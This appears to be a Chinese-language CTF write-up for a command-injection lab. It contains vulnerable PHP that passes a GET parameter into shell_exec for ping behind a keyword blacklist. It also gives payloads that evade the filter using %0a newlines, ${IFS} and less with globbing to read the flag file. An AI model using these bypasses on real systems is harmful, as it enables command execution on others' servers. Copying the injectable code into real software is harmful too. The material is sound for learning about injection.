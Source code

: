 ```php
<html>                                                                               
     <body>
         <form action="" method="get">
            <input type="text" name='ip' />
            <input type="submit" name="submit" value="提交">
<?php
$res = FALSE;
if (isset($_GET['submit']) || isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)){
        $cmd = shell_exec( 'ping  -c 4 ' . $ip );
        echo $cmd;
    }
}
?>
        </form>
    </body>
</html>
```
- 这题为组合拳
  - 本题过滤了|，&，；，空格，cat，flag，ctfhub
  - 综合换行符：
    - ${IFS} -->空格
    - %0a(换行) --> ;
    - less --> cat
  - 本题需要在url中提交才行，因为在输入框中提交会再进行url编码，意思就不是我们想要的了
  - payload:
    -  127.0.0.1%0als 看看目录
    -  127.0.0.1%0als${IFS}fla* 查看目录下的flag文件名,这里因为过滤了flag，所以要用fla*
    -  127.0.0.1%0aless${IFS}fla* 获取flag